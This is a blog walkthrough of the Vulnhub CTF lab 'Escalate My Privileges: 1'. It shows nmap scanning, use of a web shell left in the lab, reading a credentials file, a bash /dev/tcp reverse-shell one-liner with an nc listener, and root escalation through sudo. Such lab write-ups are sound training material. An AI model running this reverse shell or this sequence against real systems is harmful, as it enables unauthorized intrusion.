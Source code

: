 ```yaml
---
full_title: "Vulnhub: Escalate My Privileges: 1 Walkthrough"
date: "2020-04-12"
layout: post
coverImage: "screen-shot-2020-04-13-at-12.49.33-am.png"
---
```


**Escalate My Privileges: 1** is a challenge created by Akanksha Sachin Verma. This is a write-up of my experience solving this awesome CTF challenge.

With my Attack Machine (**Kali Linux**) and Victim Machine (**Escalate My Privileges: 1**) set up and running, I decided to get down to solving this challenge.

> Read more about my set up and environment [here](/2019/05/25/entry-0x01-my-first-post.html/)

I decided to start my journey by noting down the IP address of our victim machine. We are lucky that the author decided to display it directly on the login screen of the CentOS server.

![Screen Shot 2020-04-13 at 12.49.33 AM](/assets/images/screen-shot-2020-04-13-at-12.49.33-am.png)

Great! The victim machine has the IP address `192.168.56.120`. Let's continue with some port scanning (as usual 😏).

I decided to use my trusty `nmap` with options enabled to scan _all_ ports and provide details about the service running using the command: `nmap -p- -sV 192.168.56.120`

![Screen Shot 2020-04-13 at 7.11.20 PM](/assets/images/screen-shot-2020-04-13-at-7.11.20-pm.png)

The `nmap` scan revealed a whole bunch of open ports on the victim machine. Now, the first thing that I noticed was port `80` and I decided to navigate to the website (`http://192.168.56.102`) using **Firefox ESR** as follows:

![Screen Shot 2020-04-13 at 7.15.49 PM](/assets/images/screen-shot-2020-04-13-at-7.15.49-pm.png)

Cool! A pretty `index.html` webpage which goes well with the theme of the challenge 😎

Whenever, I am faced with a `HTML` page, I make it a point to view the webpage source code **before** attempting brute-force using tools like `dirb` or `dirbuster`. I decided to hit `<CTRL+U>` to view the webpage source.

![Screen Shot 2020-04-13 at 7.21.20 PM](/assets/images/screen-shot-2020-04-13-at-7.21.20-pm-e1586791364696.png)

Interesting! The `alt` attribute in the `img` tag has a URL - `http://ip/phpbash.php`

I decided to check out `http://192.168.56.120/phpbash.php` by replacing `ip` with the victim machine's IP address.

![Screen Shot 2020-04-13 at 7.51.19 PM](/assets/images/screen-shot-2020-04-13-at-7.51.19-pm.png)

Oh my God - command execution 😳

I decided to play with some basic Linux commands to learn more about my privileges.

![Screen Shot 2020-04-13 at 7.54.41 PM](/assets/images/screen-shot-2020-04-13-at-7.54.41-pm.png)

Looks like I am `apache`.

I decided to check for more users on the victim machine and look for clues. For this purpose, I ran the command: `cd /home` to navigate to the `/home` directory where I can find other users (if any).

![Screen Shot 2020-04-13 at 8.00.37 PM](/assets/images/screen-shot-2020-04-13-at-8.00.37-pm.png)

Bingo! Looks like there is a user called `armour` on the victim machine. I decided to look inside using the command: `ls -lsa armour` to also display hidden files (if any).

![Screen Shot 2020-04-13 at 8.02.28 PM](/assets/images/screen-shot-2020-04-13-at-8.02.28-pm.png)

C'mon it is literally right there - `Credentials.txt`

What does it contain? I decided to find out...

![Screen Shot 2020-04-13 at 8.07.02 PM](/assets/images/screen-shot-2020-04-13-at-8.07.02-pm.png)

The `Credentials.txt` file contains the following text:

my password is
md5(rootroot1)

Woohoo! A password... but how to use it?

Maybe `SSH`? Our previous `nmap` scan did show that port `22` was open. Also, the website did not have a login portal or something similar. I decided to try the `SSH` approach.

But first - I decided to compute the `MD5` hash of the password string - `rootroot1` using the simple Linux command: `echo -n rootroot1 | md5sum`

![Screen Shot 2020-04-13 at 8.22.25 PM](/assets/images/screen-shot-2020-04-13-at-8.22.25-pm.png)

> The `-n` option for the `echo` command prevents output of the trailing newline

Great! We have our password!

I decided to try logging into the victim machine as `armour` using the command: `ssh armour@192.168.56.120`

![Screen Shot 2020-04-13 at 8.29.01 PM](/assets/images/screen-shot-2020-04-13-at-8.29.01-pm.png)

Damn! Not what I had expected!

I decided to go back to the webpage. Maybe I can login to the `armour` account directly using the `su` Linux command as follows: `su - armour`

![Screen Shot 2020-04-13 at 8.47.58 PM](/assets/images/screen-shot-2020-04-13-at-8.47.58-pm.png)

> Read more about `su` vs `sudo` [here](https://www.lifewire.com/switch-user-su-command-3887179)

Hmm, `Authentication failure`.

I decided to explore a different approach - Reverse Shell. Maybe an _interactive_ shell will allow me to input the `MD5` password hash and escalate my privileges from `apache` to beyond 😎

With my handy [Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) by **pentestmonkey**, I decided to proceed by launching `nc -lvp 1010` on my attack machine to listen for connections. Then, on the webpage command execution input, I ran the command:

`bash -i >& /dev/tcp/192.168.56.119/1010 0>&1` where `192.168.56.120` is the IP address of attack machine and port `1010` is the randomly selected port on which `nc` is listening on for connections.

![Screen Shot 2020-04-13 at 8.55.43 PM](/assets/images/screen-shot-2020-04-13-at-8.55.43-pm.png)

Lo and behold!

![Screen Shot 2020-04-13 at 9.12.38 PM](/assets/images/screen-shot-2020-04-13-at-9.12.38-pm.png)

Still `apache` btw!

Now, to login as `armour` using the command: `su - armour`

![Screen Shot 2020-04-13 at 10.20.24 PM](/assets/images/screen-shot-2020-04-13-at-10.20.24-pm.png)

Woohoo! I am `armour`

It is important to note that once the password is entered, there is no manual prompt. You just need to type in any command and see 😏

Okay, the next step is to escalate my privileges and capture the flag. But how?

I decided to proceed by checking for `sudo` rights for the user `armour`. To do this, I ran the command: `sudo -l`

![Screen Shot 2020-04-13 at 10.25.44 PM](/assets/images/screen-shot-2020-04-13-at-10.25.44-pm.png)

Bah! Enough is enough! It is time to get a _full_ `tty` shell.

I ran my usual ever-wonderful Python `tty` command: `python -c 'import pty; pty.spawn("/bin/bash");'`

![Screen Shot 2020-04-13 at 10.28.18 PM](/assets/images/screen-shot-2020-04-13-at-10.28.18-pm.png)

That's when I decided to check the version of Python. After all, Python can't betray me 😳

![Screen Shot 2020-04-13 at 10.29.48 PM](/assets/images/screen-shot-2020-04-13-at-10.29.48-pm.png)

Oh look what we have here!

Python 3.6 - Hurrah!

I decided to try the same Python `tty` command using `python3` this time as follows: `python3 -c 'import pty; pty.spawn("/bin/bash");'`

![Screen Shot 2020-04-13 at 10.31.22 PM](/assets/images/screen-shot-2020-04-13-at-10.31.22-pm-e1586802718207.png)

Well, there you go! Finally!

Back to checking for a chance to exploit `sudo` rights using the command: `sudo -l`

![Screen Shot 2020-04-13 at 10.33.32 PM](/assets/images/screen-shot-2020-04-13-at-10.33.32-pm.png)

Like a kid in a candy store. Woah!

How about using good ol' `bash`?

![Screen Shot 2020-04-13 at 10.36.18 PM](/assets/images/screen-shot-2020-04-13-at-10.36.18-pm.png)

We did it! We got root! Heck yes!

...Now for the flag 😎

![Screen Shot 2020-04-13 at 10.38.30 PM](/assets/images/screen-shot-2020-04-13-at-10.38.30-pm.png)

Is that `MD5`? 😏

### My Thoughts

That was a great challenge from [Akanksha Sachin Verma](https://www.vulnhub.com/author/akanksha-sachin-verma,672/)! I really enjoyed going back to the basics. **Privilege escalation** is one of those areas where practice is everything and this challenge seems to be straightforward enough for a beginner (with boatloads of trial-and-error of course 😁)

I am writing a Vulnhub walkthrough after almost 7 months and had to do a LOT of Google-fu and re-read my old material to complete this challenge.

I look forward to solving more challenges in the [Escalate My Privileges](https://www.vulnhub.com/series/escalate-my-privileges,291/) series.

If you enjoyed reading this write-up, please check out my other [Vulnhub walkthroughs](https://diaryof0x41.wordpress.com/category/vulnhub/).
